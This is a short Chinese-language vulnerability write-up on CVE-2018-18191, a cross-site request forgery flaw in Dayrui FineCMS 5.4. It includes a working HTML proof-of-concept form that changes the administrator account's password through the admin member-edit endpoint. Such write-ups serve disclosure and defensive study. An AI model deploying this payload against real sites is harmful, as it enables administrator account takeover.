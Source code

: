 ```yaml
---
title: （CVE-2018-18191）Finecms 5.4 存在CSRF漏洞
id: zhfly2943
---
```


# （CVE-2018-18191）Finecms 5.4 存在CSRF漏洞

## 一、漏洞简介

Dayrui FineCms是中国天睿（Dayrui）程序设计团队发布的一套使用MVC架构和PDO数据库接口开发的内容管理系统（CMS）。 Dayrui FineCms 5.4版本中的/admin.php?c=member&m=edit&uid=1存在跨站请求伪造漏洞。远程攻击者可利用该漏洞修改管理员账户密码。

## 二、漏洞影响

Finecms 5.4

## 三、复现过程

### poc

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.0-sec.org/admin.php?c=member&m=edit&uid=1" method="POST">
      <input type="hidden" name="page" value="0" />
      <input type="hidden" name="member&#91;email&#93;" value="admin&#64;163&#46;com" />
      <input type="hidden" name="member&#91;name&#93;" value="admin" />
      <input type="hidden" name="member&#91;phone&#93;" value="18888888888" />
      <input type="hidden" name="member&#91;password&#93;" value="888888" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```